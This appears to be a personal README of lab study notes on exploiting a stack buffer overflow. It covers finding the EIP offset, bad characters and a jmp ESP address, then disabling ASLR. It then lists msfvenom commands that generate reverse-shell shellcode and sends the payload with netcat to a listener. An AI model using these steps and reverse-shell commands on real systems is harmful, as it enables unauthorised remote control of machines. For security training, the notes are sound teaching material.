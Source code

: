 # OSC_BoF
This Rep describes my steps for BoF. 


1. To find the EIP offset net to create a pattern with msfvenom 

 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
 -> check the EIP value: example EIP: 43346943
 then use command to find out the offset: 
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
 additional step:  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q Aa0A (first 4 chars of offset to find how many chars until ESP)
 offset = 1812, -> need to fill until then with 1812 Chars
 1. Step in code: #buf = b"A" * OFFSET #junk get to EIP

2. Find bad Characters, send all chars, in hex to File and filter out bad ones: 
3. find a jmp ESP instruction in code, so that we can put in our shellcode 
4. Windows: use mona !mona jmp -r esp -cpb "\x00\x1a" use jump esp instruction, to fin the right address. 
   Linux: need to disable ASLR: 
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   check with: 
   cat /proc/sys/kernel/randomize_va_space
   needs to be 0, 2 means activated
    in ebd, use plugin Optcode searcher and look for ESP - EIP, and first instruction that has jmp ESP
5. take the address of jump instruction and write it backwards, ex: 0x5e9a515e -> EIP="\x5e\x51\x9a\x5e" 
6. new code: #buf = b"A" * OFFSET + EIP   
7. next add 16x NOPs: b"\x90" *16
8. new code: #buf = b"A" * OFFSET + EIP + "\x90" *16
9. create the shellcode with MSFvenom:
       msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f py -v buf -b "\x00\x06\x0a\x1a\x3b\xcf"
       msfvenom -p windows/exec CMD='cmd.exe' --format c -b "\x00\x06\x0A\x1A\x3B\xCF\x0d\xff" -f raw -o exploit.txt
       msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.178 LPORT=443 -o exploit.txt -b "\x00\x0a\x1a"
       msfvenom -a x86 --platform Linux -p linux/x86/shell_reverse_tcp LHOST=192.168.45.221 LPORT=443 -f py -v buf -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc"
9. write final: 
                f = open("/home/kali/Downloads/exploit.txt", "wb")
                f.write(buf)
                f.close()
 10. send to server: 
 cat exploit.txt - | nc 192.168.221.52 5000
and set nc listner: nc -nvlp 443




